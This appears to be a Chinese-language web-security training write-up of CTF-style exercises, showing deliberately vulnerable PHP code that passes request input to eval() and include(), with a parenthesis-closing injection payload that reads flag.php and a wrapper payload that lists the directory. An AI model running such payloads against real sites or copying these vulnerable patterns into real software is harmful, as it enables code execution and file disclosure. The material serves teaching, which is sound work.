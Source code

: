 ## `eval()` 闭合漏洞

`eval()` 函数可以执行函数内部字符串所构成的指令。通过闭合前后的括号可以达到执行其他命令的效果。

### 应用（lianxi-excute）

源码：

```php
 <?php
    include "flag.php";
    $a = @$_REQUEST['hello'];
    eval( "var_dump($a);");
    show_source(__FILE__);
?>
```

构造 payload：`);print_r(file("./flag.php")`，即 `eval("var_dump();print_r(file("./flag.php"));");`。

![](/pics/WEB集训/五/9.png)

## 应用六

源码：

```php
 <?php
    show_source(__FILE__);
    if(isset($_REQUEST['path'])){
        include($_REQUEST['path']);
    }else{
        include('phpinfo.php');
    }
?>
```

先通过伪协议扫描当前目录：`<?php print_r(scandir(".")); ?>`

![](/pics/WEB集训/五/10.png)
